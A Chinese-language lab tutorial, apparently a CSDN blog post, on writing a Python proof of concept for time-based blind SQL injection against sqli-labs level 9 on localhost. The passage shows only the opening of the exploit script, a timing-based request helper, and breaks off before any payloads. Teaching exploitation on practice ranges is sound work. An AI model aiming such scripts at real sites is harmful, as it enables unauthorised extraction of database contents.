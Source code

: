 # 原创
：  37-5 基于时间的盲注 SQL 注入 PoC 的 Python 编写

# 37-5 基于时间的盲注 SQL 注入 PoC 的 Python 编写

攻击目标就用sql靶场的第9关，手注与靶场搭建：[22-5 SQL注入攻击 - 基于时间的盲注-CSDN博客](https://blog.csdn.net/weixin_43263566/article/details/135899475) 

<img alt="" height="412" src="https://img-blog.csdnimg.cn/direct/b17324ca745948baa9e5fa7cfc74dc1f.png" width="1158"/> 

#### poc 

```
import concurrent.futures  # 导入并发模块
import requests  # 导入发送HTTP请求的库
import string  # 导入处理字符串的库

url = "http://127.0.0.1/sqli-labs-master/Less-9/?id=1"  # 目标网站的URL
total_requests = 0  # 记录总请求数

timeout_limit = 5  # 设定等待时长


def timeout(url):
    """
    发送HTTP请求并返回响应或超时信息
    """
    global total_requests
    try:
        res = requests.get(url, timeout=timeout_limit)  # 发送GET请求，等待最多5秒钟
        total_requests += 1  # 每发送一次请求就增加一次总请求数
        return res.text  # 返回响应内容
    except Exception as e:
        return "timeout"  # 如果超时，则返回"time
```
